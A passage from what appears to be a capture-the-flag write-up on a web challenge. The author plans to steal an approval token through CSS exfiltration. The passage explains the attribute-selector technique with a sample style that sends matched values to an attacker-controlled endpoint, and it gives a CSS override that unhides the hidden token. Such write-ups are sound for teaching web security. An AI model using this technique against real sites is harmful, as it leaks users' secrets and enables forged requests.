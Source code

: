 Here we see that `approvalToken` is included in file right above the button to approve, and checking the corresponding JavaScript file shows us:

```javascript
await fetch("/approve/" + btn.data("id") + "/" + $("#approvalToken").text());
```

Basically, our css is approved through a simple fetch request to the `/approve/` route, concatenated with our css id and the `approvalToken`.

## Enters the CSS Exfiltration

CSS Exfiltration is an old technique, but rather effective, as many people assume that CSS can do no harm. After all, it's only styles, what can style do?

History has proven again that arrogance is the enemy to survival. Though CSS is only style, the powerful feature of CSS makes it a rather ideal method to exfiltrate data based on the content of the page. And this is made possible through conditional rendering.

Many times we want a css to apply based on the content we have. For example, if the input tag has value 1337, then we want a particular background, but when it is not, we want another:

```html
<input value=1337>
<style>
input[value="1337"]{
	--value: url(/collectData?value=1337);
}
input {
	background:var(--value, none);
}
```

Here we are saying, if the input has a value of 1337, we would set background to the image hosted on the target url, otherwise, the background would be none.

However, the target url is not an image. Rather, it is a site controlled by us, the attackers. So we can basically tell whether the page this css rendered has such an input based on whether we receive a request.

This attack has various variations and transforms, there are two good sources:

- [portswigger research](https://portswigger.net/research/blind-css-exfiltration)
- [hacktricks](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection)

Here, since we can control the css, we can then try to exfiltrate approvalToken, with which we can forge an approval request to get our css approved.

### Roadblocks

The first roadblock we have to clear is the `d-none` class, which is bootstrap's way to hide this tag. Once a tag is hidden, there are many things we cannot do, such as set its font and background image, which would significantly impede our exfiltration attempt. Fortunately, we can use the `!important` syntax in css to overwrite this `d-none` class:

```css
.d-none {
  display: block !important;
}
```
